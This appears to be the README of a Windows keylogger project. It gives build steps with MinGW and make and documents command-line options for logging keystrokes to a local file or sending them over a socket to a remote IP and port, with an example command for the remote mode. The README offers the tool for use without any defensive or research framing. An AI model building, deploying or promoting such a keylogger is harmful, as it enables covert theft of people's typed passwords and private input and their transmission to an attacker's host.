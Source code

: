 BUILD AND RUN FOR WINDOWS ONLY

# Installation

run command make

# Dependencies

[MinGW](http://www.mingw.org) for g++ and command make

# Usage

This program propose 2 type of keylogger

## Parameters

## [REQUIERED] Please, choose one of them

        -l | --local : local keylogger, store data into file on this computer, require 1 argument (destination file)
                Example : ./bin/main.exe -l D:\file.txt

        -r | --remote : remote keylogger, send data via socket, require 2 arguments (ip, port)
                Example : ./bin/main.exe -r 192.168.1.16 7777

## [OPTIONAL]

        -c | --no_click : don't store click keys (based on ascii)
                Example : ./bin/main.exe ... -c

        -a | --alphabet_only : Store alphabet only, A-z (based on ascii)
                Example : ./bin/main.exe ... -a

        -C | --store_character : Default storage format is int, use this option if you want to store as character
                Example : ./bin/main.exe ... -C

        -h | --help : print this help
                Example : ./bin/main.exe -h

